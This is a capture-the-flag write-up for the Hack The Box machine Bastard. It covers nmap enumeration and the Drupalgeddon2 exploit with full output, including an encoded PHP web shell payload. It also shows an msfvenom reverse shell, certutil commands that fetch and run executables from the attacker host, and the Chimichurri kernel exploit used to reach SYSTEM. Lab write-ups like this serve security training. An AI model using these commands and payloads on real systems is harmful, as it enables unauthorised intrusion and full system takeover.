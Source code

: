 # HTB - Bastard

#### Ip: 10.10.10.9
#### Name: Bastard
#### Difficulty: Medium

----------------------------------------------------------------------

![Bastard.png](../assets/bastard_assets/Bastard.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.9 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 09:04 CDT
Nmap scan report for 10.10.10.9
Host is up (0.067s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.86 seconds

```

Navigating to the webpage we can see the site is running Drupal.

![site.png](../assets/bastard_assets/aite.png)

And if we take a look at the page source we can see it is running Drupal 7 specifically (Note: Nmap picked this up for us as well):

![7.png](../assets/bastard_assets/7.png)

Based on prior experience, I know that Drupal 7 is has several vulnerabilites. Lets try using drupalgeddon2 to exploit this. The exploit can be found at: https://github.com/dreadlocked/Drupalgeddon2

### Exploitation:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ ruby drupalgeddon2.rb http://10.10.10.9     
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VFEMFJVK
[+] Result : VFEMFJVK
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> hostname
Bastard
```

Nice! The exploit worked after trying out a few different payloads. 

Lets use msfvenom to create a reverse shell executable so we can spawn a proper reverse shell:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Then with both a python HTTP server and a netcat listener going we can fetch and execute the shell:

```text
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.26/shell.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> .\shell.exe
```

And we catch a shell back:

![shell.png](../assets/bastard_assets/shell.png)

We can now grab the user.txt flag:

![user_flag.png](../assets/bastard_assets/user_flag.png)

### Privilege Escalation

Because this is such an old machine I'm curious about the kernel version:

```text
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          1/9/2023, 5:03:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.514 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.514 MB
Virtual Memory: In Use:    581 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Nice, doesn't look like there's been any patching. Lets try using Chimichurri.exe https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

We can download it from our attacking machine and execute it using:

```text
C:\Temp>certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Temp>.\Chimichurri.exe 10.10.14.26 444
```

And with a listener going on port 444 we catch a shell back as nt authority\system and grab the final flag:

![root_flag.png](../assets/bastard_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------
